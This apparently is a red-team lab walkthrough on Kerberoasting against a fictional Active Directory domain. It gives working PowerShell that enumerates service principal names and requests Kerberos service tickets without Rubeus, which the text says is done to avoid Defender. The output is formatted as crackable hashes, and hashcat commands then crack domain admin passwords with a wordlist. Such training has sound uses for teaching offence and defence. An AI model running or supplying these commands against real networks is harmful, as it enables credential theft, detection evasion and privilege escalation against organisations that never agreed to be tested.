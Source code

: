 # Advanced Kerberoasting


## Roast like a Ghost


The point of kerberoasting is to get credentials for accounts with higher privledges. Service accounts or accounts with SPNs (Call them SPINS if you want to be cool.) often have higher credentials. MSSQL databases actually automatically create them for the service account running the MSSQL service.  But they can often be assigned to accounts for number of services including files services.

As you can imagine, even lowly Domain Users need to interact with file services, and can request tickets associated with these SPN accounts. Previously you did this were Rubeus, now we are going to turn on defender, watch it delete that tool immediately because it is super burned, and then craft our own Ticket Requests to get the Kerb Hash back from the svc-file account.


1. Now that you have the SAM account names, perform a subsquent query to obtain the SPN names. These will be used to perform targeted kerberoasting attacks by obtaining the kerberos pre-authentication ticket hash from the DC.

```
$name="svc-file"
[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns
```

1. Armed with the list of the user SAM accounts and SPN names, we will perform the attack using the command below. Note that you will need to change the SPN and SAM account for each user (e.g., "`HOST/dragonmount.wheel.co`", "`svc-file`"). Copy the SPN hashes to crack offline.


```
$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("HOST/dragonmount.wheel.co", "svc-file");
```


1. Collect the hashes into a text file (`kerb.hash`) on your kali operater box. 


1. Get the provided word list (`rawk_you.txt`) from the file server, and run John/Hashcat with it.
   ```sh
   wget http://172.16.2.2:8080/rush_hour/rawk_you.txt \
   hashcat -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O ./kerb.hash ./rawk_you.txt
   ```
   Keep a text file with the decrypted passwords for each domain admin.



